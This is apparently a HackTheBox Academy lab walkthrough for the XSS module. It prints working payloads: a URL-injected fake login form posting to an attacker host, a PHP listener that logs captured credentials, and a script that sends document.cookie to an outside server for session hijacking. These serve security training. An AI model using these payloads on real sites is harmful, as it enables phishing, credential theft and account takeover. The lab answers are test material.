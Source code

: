 ```yaml
---
title: "[HTB_Academy] Cross-Site Scripting (XSS)"
excerpt: "**Cross-Site Scripting (XSS)** Module Walkthrough - HackTheBox Academy"
header:
  overlay_image: /assets/images/HTB_Cross-Site_Scripting_(XSS)/banner.png
  teaser: /assets/images/HTB_Cross-Site_Scripting_(XSS)/upper.png
  og_image: /assets/images/HTB_Cross-Site_Scripting_(XSS)/upper.png
categories:
  - HTB-Academy
tags:
  - HTB-Academy
  - Bug Bounty Hunter
  - Penetration Tester
  - Web
  - OWASP TOP 10
layout: single
toc: true
---
```

![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\upper.png)

## Disclaimer
<img style="float: left; padding-right:10px" src="\assets\images\disclaimer.png" width="110" height="110">

<div style="text-align: justify">The following post may contain spoilers. Use it as a guide or support. It is always better to try it by yourself!</div>
<div style="text-align: justify">Enjoy :)</div>

## Resources
<img style="float: left; padding-right:10px" src="\assets\images\github.avif" width="110" height="110">
<div style="text-align: justify">All resources can be found in the following GitHub repository:</div>
[R4fik1-HTB_Cross-Site_Scripting_Repository](https://github.com/r4fik1/HTB_Academy/tree/main/HTB_Cross-Site_Scripting)

## Module Summary

Web Application Penetration Testing is a vital part of any penetration test. It plays an essential role in identifying critical vulnerabilities that may lead to the organization's assets being compromised. Cross-Site Scripting (XSS) vulnerabilities are among the most common vulnerabilities in any web application, with studies indicating that over 80% of all web applications are vulnerable to it. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser, leading to various types of attacks, including compromising web admins and their web applications.

While many organizations choose to ignore XSS vulnerabilities, as it only affects end-users without having a direct ability to execute code on the back-end server, in this module, we will discuss why XSS should be taken seriously. We will discuss the three types of XSS vulnerabilities, how to identify them, and how to exploit them.

In addition to this, the Cross-Site Scripting (XSS) module will teach you the following:

  - What is an XSS vulnerability?
  - History of XSS attacks in real-life
  - What are Stored XSS, Reflected XSS, and DOM-based XSS vulnerabilities
  - Techniques to identify XSS vulnerabilities
  - Performing Defacing attacks to change the look of a website
  - Performing Phishing attacks to steal the victim's login details and to perform a phishing simulation exercise
  - Performing Session Hijacking attacks to obtain the victim's session cookie and use them to access their account
  - Front-end and Back-end steps to prevent XSS vulnerabilities and protect your web application against them
  

## Stored XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**


<div style="text-align: justify">1. Access the target. There is a box that asks for a ticket. Write the following script and press enter.</div>
```javascript
<script>alert(document.cookie)</script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q1\1.png)



<div style="text-align: justify">2. You get the banner in a pop-up.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q1\2.png)



## Reflected XSS

>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**


<div style="text-align: justify">3. Enter the following script in the box and press the "Add" button.</div>
```javascript
<script>alert(document.cookie)</script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q2\1.png)

<div style="text-align: justify">4. You get the banner in a pop-up.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q2\2.png)



## DOM XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**


<div style="text-align: justify">5. Enter the following script in the box and press the "Add" button.</div>
```javascript
<img src="" onerror=alert(document.cookie)>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q3\1.png)



<div style="text-align: justify">6. You get the banner in a pop-up.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q3\2.png)



## XSS Discovery

>**Q. Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?**

<div style="text-align: justify">7. Access the url which is a registration form. Fill all fields with test text. Open the developer tools of the web browser and check the status of the request response.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q4\0.png)



<div style="text-align: justify">8. Using the python tool "xsstrike" the vulnerable parameter is obtained.</div>
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q4\1.png)

>**Q. What type of XSS was found on the above server? "name only"**


<div style="text-align: justify">9. Using the python tool "xsstrike" gets the XSS type.</div>
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q4\2.png)


## Phishing

>**Q. Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**


<div style="text-align: justify">10. Access the target by pointing to "/phishing". Contains a box where to paste the URL of an image.</div>
```bash
http://10.129.252.57/phishing/
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\1.png)


<div style="text-align: justify">11. Try entering the following URL: www.hackthebox.eu/images/logo-htb.svg. The image is loaded.</div>
```bash
http://10.129.252.57/phishing/index.php?url=httos%3A%2F%2Fwww.hackthebox.eu%2Fimages%2Flogo-htb.svg
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\2.png)


<div style="text-align: justify">12. Find your own IP with ifconfig to create open a listener.</div>
```bash
ifconfig
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\3.png)


<div style="text-align: justify">13. As url parameter value in the URL use the following script. It is verified that it is vulnerable to XSS.</div>
```bash
http://10.129.252.57/phishing/index.php?url=<script>alert(window.origin)</script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\4.png)


<div style="text-align: justify">14. Through "document.write" load a login form to falsify the web. The "Image URL" box should be removed.</div>
```bash
http://10.129.252.57/phishing/index.php?url='/><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.46:3333><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');</script><!--
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\5.png)


<div style="text-align: justify">15. With the following parameter "document.getElementById('urlform').remove()" the "Image URL" box is removed.</div>
```bash
http://10.129.252.57/phishing/index.php?url=%27/%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.14.46:3333%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove();%3C/script%3E%3C!--
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\6.png)


<div style="text-align: justify">16. Create a PHP listener on port 3333.</div>
```bash
mkdir /tmp/server
cd /tmp/server
nano index.php
```



```bash
sudo php -S 0.0.0.0:3333
```

```bash
cat creds.txt
```

![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\7.png)


<div style="text-align: justify">17. We use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections</div>
```bash
cat index.php
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\8.png)

<div style="text-align: justify">18. Access the following URL created earlier to send the phishing to the user.</div>
```bash
http://10.129.252.57/phishing/send.php
```
```bash
http://10.129.252.57/phishing/index.php?url=%27/%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.14.46:3333%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove();%3C/script%3E%3C!--
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\9.png)


<div style="text-align: justify">19. The listener captures the username and password.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\10.png)


<div style="text-align: justify">20. Access the login and enter the previously stolen credentials.</div>
```bash
http://10.129.252.57/phishing/login.php
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\11.png)


<div style="text-align: justify">21. Get the flag.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\12.png)



## Session Hijacking

>**Q. Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**


<div style="text-align: justify">22. Access the target. It is a registration form.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\1.png)



<div style="text-align: justify">23. Find if the record is vulnerable with the following scripts in the fields.</div>
```javascript
"><script src=http://10.10.14.46:3333/></script>
"><script src=http://10.10.14.46:3333/></script>
"><script src=http://10.10.14.46:3333/></script>
"><script src=http://10.10.14.46:3333/></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\2.png)


<div style="text-align: justify">24. Open a listener. It is verified that a vulnerable field exists.</div>
```bash
sudo php -S 0.0.0.0:3333
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\3.png)


<div style="text-align: justify">25. Search for the vulnerable field by entering a name for each script. Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.
Look for the position.</div>
```javascript
"><script src=http://10.10.14.46:3333/fullname></script>
"><script src=http://10.10.14.46:3333/username></script>
"><script src=http://10.10.14.46:3333/password></script>
"><script src=http://10.10.14.46:3333/url></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\4.png)


<div style="text-align: justify">26. The vulnerable field is "url".</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\5.png)


<div style="text-align: justify">27. Create the following script to steal the cookie.</div>
```bash
nano script.js
```
```bash
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\6.png)

<div style="text-align: justify">28. Write that script in the url field to access it from the listener.</div>
```javascript
<script src=http://10.10.14.46:3333/script.js></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\7.png)

<div style="text-align: justify">29. The cookie is captured.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\8.png)

<div style="text-align: justify">30.  Access "login.php". Click on "+" to add the cookie and add the cookie.</div>
```bash
http://10.129.134.2/hijacking/login.php
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\9.png)

<div style="text-align: justify">31. The flag is obtained.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\10.png)

## Skills Assessment

>**Q. What is the value of the 'flag' cookie?**


<div style="text-align: justify">32. Access the target and click on "Welcome to Security Blog".</div>
```bash
http://10.129.13.2/assessment
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\1.png)


<div style="text-align: justify">33. Write the scripts in all the fields always putting a name to detect the vulnerable field.</div>
```javascript
"><script src=http://10.10.14.46:3333/coment></script>
"><script src=http://10.10.14.46:3333/name></script>
"><script src=http://10.10.14.46:3333/url></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\2.png)

<div style="text-align: justify">34. Open a listener. The vulnerable field is "url".</div>
```bash
sudo php -S 0.0.0.0:3333
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\3.png)

<div style="text-align: justify">35. Create the following script to steal the cookie.</div>
```bash
nano script.js
```
```bash
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\4.png)

<div style="text-align: justify">36. Write that script in the url field to access it from the listener.</div>
```javascript
<script src=http://10.10.14.46:3333/script.js></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\5.png)

<div style="text-align: justify">37. In the listener the flag inside the cookie is obtained.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\6.png)